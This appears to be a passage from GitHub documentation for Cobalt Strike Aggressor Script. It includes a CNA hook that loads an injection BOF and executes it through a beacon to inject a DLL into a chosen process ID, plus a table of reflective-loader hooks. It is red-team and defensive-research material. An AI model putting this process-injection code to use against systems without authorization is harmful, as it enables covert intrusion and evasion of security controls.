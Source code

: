 ### The `PROCESS_INJECT_EXPLICIT` Hook

This hook lets you define how *explicit* process injection (into a specific, existing process) is implemented.

```cna
set PROCESS_INJECT_EXPLICIT {
    # $1 = Beacon ID
    # $2 = memory injectable DLL (position-independent code)
    # $3 = the PID to inject into
    # $4 = offset to jump to
    # $5 = x86/x64 - memory injectable DLL arch

    # ... your custom injection logic here ...
		local('$barch $handle $data $args $entry');
	# Set the architecture for the beacon's session
	$barch = barch($1);

	# read in the injection BOF based on barch
	warn("read the BOF: inject_explicit. $+ $barch $+ .o");
	$handle = openf(script_resource("inject_explicit. $+ $barch $+ .o"));
	$data = readb($handle, -1);
	closef($handle);

	# pack our arguments needed for the BOF
	$args = bof_pack($1, "iib", $3, $4, $2);

	btask($1, "Process Inject using explicit injection into pid $3");

	# Set the entry point based on the dll's arch
	$entry = "go $+ $5";
	beacon_inline_execute($1, $data, $entry, $args);
  # Let the caller know the hook was implemented.
  return 1;
}
```

## User-Defined Reflective Loaders (UDRLs)
Allows you to use customized reflective loaders for beacon payloads.

### UDRL Hooks
|Hook|Description|
|---|---|
|`BEACON_RDLL_GENERATE`|Hook to implement basic Reflective Loader replacement.|
|`BEACON_RDLL_SIZE`|Hook called when preparing beacons and allows the user to configure more than 5 KBspace for their reflectiveloader(upto100KB).|
|`BEACON_RDLL_GENERATE_LOCAL`|Hook used to implement advanced Reflective Loader replacement.|

## Malleable C2 Interaction

